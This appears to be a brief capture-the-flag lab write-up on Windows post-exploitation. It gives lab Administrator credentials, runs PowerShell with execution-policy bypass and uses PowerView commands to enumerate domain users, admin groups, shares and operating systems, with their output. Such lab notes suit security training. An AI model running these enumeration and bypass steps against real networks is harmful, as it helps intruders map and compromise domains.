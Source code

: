 # Post-exploitation basics

Just ssh with:

Your machine IP is 10.10.148.206

Username: Administrator

Password: P@$$W0rd

Domain Name: CONTROLLER


we run powershell ``powershell -ep bypass``

## PowerView

then powerview ``. .\Downloads\PowerView.ps1``

domain users enumeration ``Get-NetUser | select cn``
```
cn
--
Administrator
Guest
krbtgt
Machine-1
Admin2
Machine-2
SQL Service
POST{FLAG1_HERE}
sshd
````

groups enum ``Get-NetGroup -GroupName *admin*``
````
Administrators
Hyper-V Administrators 
Storage Replica Administrators 
Schema Admins
Enterprise Admins
Domain Admins
Key Admins
Enterprise Key Admins
DnsAdmins
````

further commands [cheatsheet here](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

````
PS C:\Users\Administrator> Invoke-ShareFinder 
\\Domain-Controller.CONTROLLER.local\ADMIN$     - Remote Admin 
\\Domain-Controller.CONTROLLER.local\C$         - Default share       
\\Domain-Controller.CONTROLLER.local\IPC$       - Remote IPC
\\Domain-Controller.CONTROLLER.local\NETLOGON   - Logon server share  
\\Domain-Controller.CONTROLLER.local\Share      -
\\Domain-Controller.CONTROLLER.local\SYSVOL     - Logon server share  
````
````
PS C:\Users\Administrator> Get-NetComputer -fulldata | select operatingsystem 

operatingsystem
---------------
Windows Server 2019 Standard     
Windows 10 Enterprise Evaluation 
Windows 10 Enterprise Evaluation 
````
